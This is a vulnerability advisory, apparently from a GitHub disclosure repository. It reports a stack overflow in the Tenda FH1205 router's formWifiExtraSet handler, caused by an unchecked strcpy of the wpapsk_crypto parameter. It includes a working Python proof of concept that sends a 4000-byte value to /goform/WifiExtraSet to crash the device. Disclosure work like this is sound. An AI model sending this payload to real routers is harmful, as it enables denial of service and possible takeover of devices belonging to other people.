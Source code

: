 # Tenda FH1205 formWifiExtraSet
### Overview
vendor: Tenda

product: FH1205

version: V2.0.0.7(775)

type: Stack Overflow
### Vulnerability Description
Tenda FH1205 V2.0.0.7(775) were discovered to contain a stack overflow via the wpapsk_crypto parameter in the formWifiExtraSet function.
### Vulnerability details
In function formWifiExtraSet line 448, it reads in a user-provided parameter `wpapsk_crypto`, and the variable `tkip_aes_1` is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `tkip_aes`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/1.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WifiExtraSet"

data = {
    "clientApEn": "1",
    "ssid": "1",
    "security": "wpapsk",
    "wpapsk_crypto": "a" * 4000,
    "wpapsk_key": "06b4be19da289f475aa46a33cb793029d4ab3db7a23ee92382eb0106c72ac7bb"
}

response = requests.post(url, data=data)
print(response.text)
```
